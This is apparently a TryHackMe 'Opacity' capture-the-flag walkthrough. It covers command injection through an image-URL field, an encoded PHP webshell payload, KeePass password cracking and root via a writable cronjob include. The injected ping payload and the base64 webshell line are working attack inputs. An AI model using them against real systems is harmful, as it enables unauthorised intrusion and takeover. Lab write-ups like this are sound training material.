


# TryHackme - Opacity

So let's start with the usual portscan first of all.

`nmap -sS -sV -sC <IP>`

We see SSH, a web server and a samba service open.

I started with the enumeration of the web server manually and with various tools.

First of all, we see a login panel where I attempted some SQL injection.

I ran __FFUF__ while fuzzing webroot and saw the following interesting directory.

Then let's see what's behind it.

As we can see, the service requests an image from an external URL.

I first checked if this really worked by using a `python3 -m http.server` and uploading an image from my Attacker machine to the cloud service.

So far so good everything works, but now to the exploit attempts.

First I tried to find a `SSRF` vulnerability.

Then I set up a netcat listerner and gave the service my URL.

At the netcat listener I saw the __User-Agent__ header.

Now we know that the service probably gets our images via `wget`.

This caused me to look more for a __RCE__ vulnerability.

After a few tries I quickly found a __POC__ which confirms a __RCE vulnerability__.

Using `tcpdump -i tun0 icmp` I listened for incoming ICMP packets on my attacker machine.

And with the payload `;ping -c 3 <ATTACKER_IP>;.png` appended to the URL I pinged my machine successfully 3 times

Now I placed a simple webshell from which I later established a reverse shell with the following payload

 `;echo "PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllOyB9Pz4=" | base64 -d >> rev.php;.png`

Through the webshell established a more convenient reverse shell and was `www-data`.

While enumerating the system I found an interesting file under `/opt` which I downloaded to my attacker machine.

With `keepass2john` and `john` I cracked the password of the keepass database and could open it and got the password from the `sysadmin` user.

I logged in via SSH and got the first flag.

## sysadmin --> root

Now to the privilege escalation.

I ran the tool `pspy` and saw that there must be a cronjob active under `root` user.

It runs a `php` script which is located in our home directory.

The script automatically makes a backup.

Furthermore we see another inclusion in the `require_once` function.

The file `backup.inc.php` was not writable for the time being, so I copied it to `/tmp`, deleted it and moved the copy with write permissions back to the original directory.

I placed a simple reverse-shell code in the file, waited and got a session on my netcat listener as root.

